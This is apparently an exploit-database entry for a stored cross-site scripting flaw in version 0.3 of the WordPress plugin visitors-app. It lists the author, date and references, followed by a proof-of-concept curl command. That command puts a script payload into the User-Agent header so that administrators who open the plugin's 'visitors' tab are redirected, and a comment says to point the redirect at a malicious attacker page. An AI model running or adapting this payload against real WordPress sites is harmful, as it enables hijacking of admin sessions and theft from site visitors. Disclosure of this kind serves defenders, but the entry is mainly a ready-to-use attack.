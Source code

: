 XSS
---

    # Exploit Title: WordPress Plugin visitors-app 0.3 - 'user-agent' Stored Cross-Site Scripting (XSS)
    # Date: 09/06/2021
    # Exploit Author: Mesut Cetin
    # Vendor Homepage: https://profiles.wordpress.org/domingoruiz/
    # Software Link: https://wordpress.org/plugins/visitors-app/
    # Version: 0.3
    # Tested on: Debian GNU/Linux 10
    # Reference: https://wpscan.com/vulnerability/06f1889d-8e2f-481a-b91b-3a8008e00ffc

    ## Description:
    # A vulnerability in the Wordpress plugin "visitors" version 0.3 and prior allows remote attacker through
    # Cross-Site Scripting (XSS) to redirect administrators and visitors and potentially obtain sensitive informations
    # The 'user-agent' parameter allows attacker to escalate their privileges.

    ## PoC
    # Replace google.com with malicious attacker page
    curl -i http://localhost/wordpress --user-agent "</script><script>location=([]+/http:\\google.com/g).substr(1,19); </script>"

    # on http://localhost/wordpress/wp-admin, browse the tab "visitors"